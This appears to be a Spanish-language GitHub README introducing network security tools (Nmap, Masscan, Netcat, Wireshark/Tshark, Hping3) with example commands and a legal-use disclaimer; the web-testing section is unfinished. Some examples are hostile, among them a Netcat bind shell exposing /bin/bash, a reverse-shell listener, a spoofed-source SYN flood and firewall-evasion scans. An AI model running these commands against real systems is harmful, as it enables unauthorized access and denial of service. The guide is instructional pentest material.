

¡Bienvenido! 🚀 Aquí tienes un resumen completo y fácil de entender de las herramientas más potentes del mundo de la ciberseguridad. Desde __escanear redes hasta analizar malware__, esta guía te muestra para qué sirve cada herramienta y cómo usarla con ejemplos prácticos. ¡Vamos a ello! 💻

## ⚠️ AVISO IMPORTANTE
Estas herramientas son utilizadas por profesionales de la ciberseguridad para realizar auditorías y pruebas de penetración con autorización explícita. El uso de estas herramientas sin permiso en sistemas que no te pertenecen es ilegal y puede tener consecuencias graves. Utiliza esta información de manera responsable y solo en entornos de aprendizaje controlados (como laboratorios personales o plataformas CTF).

## 🌐 Análisis de Redes y Escaneo 
_Antes de cualquier acción, necesitas un mapa. Estas herramientas son como los ojos y oídos en una red: descubren qué dispositivos están conectados, qué servicios ofrecen y cómo se comunican. Es el primer paso fundamental en cualquier auditoría._

### 👁️ Nmap _(Network Mapper)_ 

Es una herramienta de escaneo de red gratuita y de código abierto que se utiliza en pruebas de penetración (pentesting) para explorar y auditar redes y sistemas informáticos.
- _¿Para qué sirve?_ : Te ayuda a identificar qué dispositivos hay, qué puertos tienen abiertos y qué servicios (y versiones) están ejecutando. Imprescindible para entender el terreno. Es como un sonar de un submarino.
- _¿Como se instala?_ : En muchos SO como Kali o Parrot con distro de hacking viene descargada por defecto. Por otro lado, la instalación varía según el sistema operativo. A continuación de dejo la página oficial [Nmap.org](https://nmap.org/download.html) para que puedas descargarla y leer su documentación.

Estos son algunos ejemplos claves que puedes realizar con Nmap:
```bash
# Escaneo de red completo con detección de servicios
nmap -sV -sC -oA -T4 192.168.1.0/24

# Escaneo sigiloso SYN con optimización de tiempo
nmap -sS -T2 -p- --max-retries 1 100.target.com

# Escaneo de vulnerabilidades basado en scripts
nmap --script vuln --script-args=unsafe=1 192.168.1.100

# Técnicas avanzadas de evasión de firewalls
nmap -sS -f --mtu 24 --data-length 1337 -D RND:10 --spoof-mac 0 192.168.1.1

# Ejecución de scripts NSE personalizados
nmap --script=http-vuln-* --script-args 
http-vuln-cve2017-5638.path=/struts2-showcase/ 192.168.1.100

# Descubrimiento de servicios UDP
nmap -sU -sV --version-intensity 0 -n -T4 192.168.1.0/24

# Escaneo de IPv6
nmap -6 -sS -p 80,443,22,21,25 2001:db8::/32
```

### ⚡ Masscan

Es un escáner de puertos de red, de código abierto, __diseñado para realizar escaneos masivos de forma excepcionalmente rápida__. A diferencia de otros escáneres como Nmap, que __priorizan la precisión__, Masscan se enfoca en la _velocidad_, permitiendo escanear grandes rangos de direcciones IP, o incluso todo internet, en cuestión de minutos.
- _Usos Principales_ : Los profesionales de la ciberseguridad lo usan para encontrar dispositivos y servicios expuestos en grandes redes, o en internet en general. Por otro lado, ayuda a identificar qué hosts tienen puertos abiertos y en el contexto de __pentesting__, se usa para una __fase inicial de reconocimiento rápido antes de realizar escaneos más detallados con herramientas como Nmap.__
- No esta diseñado para obtener información detallada sobre servicios o vulnerabilidades de hosts. __Su objetivo principal es simplemente detectar qué puertos están abiertos de forma rapida__. A continuación te dejo el [GitHub de Masscan](https://github.com/robertdavidgraham/masscan).

Estos son algunos ejemplos claves que puedes realizar con Masscan:
```bash
# Escaneo de puertos de alta velocidad
masscan -p1-65535 192.168.1.0/24 --rate=1000

# Captura de banners con formato de salida a un archivo Json
masscan -p80,443,22 10.0.0.0/8 --banners --source-port 61000
-oJ scan_results.json

# Excluir rangos y limitar la velocidad
masscan 0.0.0.0/0 -p0 --excludefile exclude.txt --rate=100000

# Creación de paquetes personalizados
masscan --ports 0-65535 --adapter-ip 192.168.1.100 
--router-mac 00:11:22:33:44:55 192.168.1.0/24
```

### 🇨🇭 Netcat ("_Navaja Suiza_" de las redes)

Netcat, también conocido como __“nc”__, es una herramienta de red versátil y poderosa que se utiliza para __leer y escribir datos a través de conexiones de red utilizando el protocolo TCP/IP o UDP__.
- _¿Qué es Netcat?_ : Es una herramienta de línea de comandos que actúa como una "Navaja Suiza” para las comunicaciones de red. Puede ser utilizado tanto como un cliente como un servidor, y es capaz de realizar una amplia gama de tareas, como transferencia de archivos, escaneo de puertos, redirección de puertos, chat en red y más. Su simplicidad y potencia lo convierten en una herramienta indispensable para tareas de red y seguridad.
- _Riesgos de seguridad_ : Aunque Netcat tiene usos legítimos, su simplicidad y potencia la convierten en una herramienta peligrosa en manos de ciberdelincuentes, ya que, pueden __crear puertas traseras o backdoors, exfiltrar datos sensibles de una red e iniciar ataques que comprometan la seguridad de la red__.

Estos son algunos ejemplos que puedes realizar con Netcat:
```bash
# Listener para una shell inversa
nc -nlvp 4444

# Conectarse a un puerto remoto
nc -nv 192.168.1.100 80

# Escaneo de puertos
nc -zvn 192.168.1.100 1-1000 2>&1 | grep succeeded

# Transferencia de archivos (Receptor)
nc -l -p 1234 > received_file.txt
# Transferencia de archivos (Emisor)
nc -w 3 192.168.1.100 1234 < file_to_send.txt

# Crear una puerta trasera (solo para fines educativos)
nc -l -p 4444 -e /bin/bash

# Conexiones UDP
nc -u -l -p 1234

# Creación de peticiones HTTP
echo -e "GET / HTTP/1.1\r\nHost: target.com\r\n\r\n" | nc target.com 80
```

### 🦈 Wireshark / Tshark

Esta aplicación es un analizador de protocolos de red gratuito y open source que __captura, inspecciona y analiza el tráfico de datos en tiempo real__. Se utiliza como herramienta primordial para obtener una profunda visión del tráfico de la red, permitiendo a profesionales del área a detectar y analizar amenazas potenciales.
- _Usos de Wireshark en Ciberseguridad_ : Tal como se mencionó anteriormente, se utiliza para __detección de amenazas__ al identificar patrones inusuales o sospechosos, como escaneos de puertos, conexiones inesperadas o intentos de inicio de sesiones fallidos. Tambien realizar un __análisis forense__ al analizar el tráfico posterior a un ataque, tambien permite __analizar malware__ tras infecciones para entender como este se comunico con servidores externos. Por otro lado, realizar __pruebas de vulnerabilidades y auditorías de red__ para confirmar que las politicas de seguridad se esten aplicando correctamente.

Cabe destacar que esta aplicación se puede utilizar por medio de consola o a travez de su propia aplicación ejecutable. A continuación se mostrará ejemplos utilizando la consola:
```bash
# Filtros de captura para tráfico específico (en opciones de captura)
wireshark -i eth0 -f "tcp port 80 and host 192.168.1.100"

# Filtros de visualización para análisis (en la barra de filtros)
# Tráfico HTTP: http
# Handshakes HTTPS: ssl.handshake.type == 1
# Consultas DNS: dns.flags.response == 0
# Paquetes SYN: tcp.flags.syn == 1 && tcp.flags.ack == 0

# Captura en línea de comandos con tshark
tshark -i eth0 -Y "http.request.method == POST" -T fields -e http.host -e http.request.uri

# Extraer archivos de una captura de paquetes .pcap
tshark -r capture.pcap --export-objects "http,extracted_files"

# Estadísticas en tiempo real
tshark -i eth0 -q -z io,stat,1

# Descifrar tráfico HTTPS con la clave
wireshark -o "ssl.keys_list:192.168.1.100,443,http,server.key" -r capture.pcap
```

### 🛜 Hping3

Hping3 es una herramienta de línea de comandos orientada al modelo TCP/IP que se utiliza en ciberseguridad para generar y analizar paquetes de red. A _diferencia de la utilidad ping tradicional_, que solo usa el protocolo ICMP, __Hping3 permite crear paquetes personalizados para los protocolos TCP, UDP, ICMP e IP en bruto__.

Su gran versatilidad la convierte en una herramienta fundamental para auditores y pentesters, así como para administradores de redes.
- _¿Para qué se utiliza?_ : Sus capacidades permite analizar firewalls y puertos con diferentes indicadores TCP (SYN,ACK,FIN). Tambien permite escaneo de red más sofisticados que un simple "ping". Permite probar las reglas de un IDS (Sistema de detección de intrusos) generando tráfico para ver si las alertas se activan correctamente. Generación de ataques de denegación de servicios (DDoS) al inundar paquetes SYN (SYN flood), entre muchos otros.

A continuación te muestró algunos ejemplo de casos de uso de Hping3:
```bash
# Prueba de inundación SYN (SYN Flood)
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source target.com

# Traceroute usando diferentes protocolos
hping3 --traceroute -V -S -p 80 target.com

# Escaneo de puertos con flags personalizados
hping3 -8 50-60 -S -V target.com

# Pruebas de firewall con fragmentación
hping3 -f -p 80 -S target.com

# Recolección de Timestamps
hping3 -S -p 80 --tcp-timestamp target.com

# Paquete personalizado con datos
hping3 -p 80 -S -d 50 -E malicious.txt target.com
```

## 🕸️ Testing de Aplicaciones Web 
[!] _Coming soon..._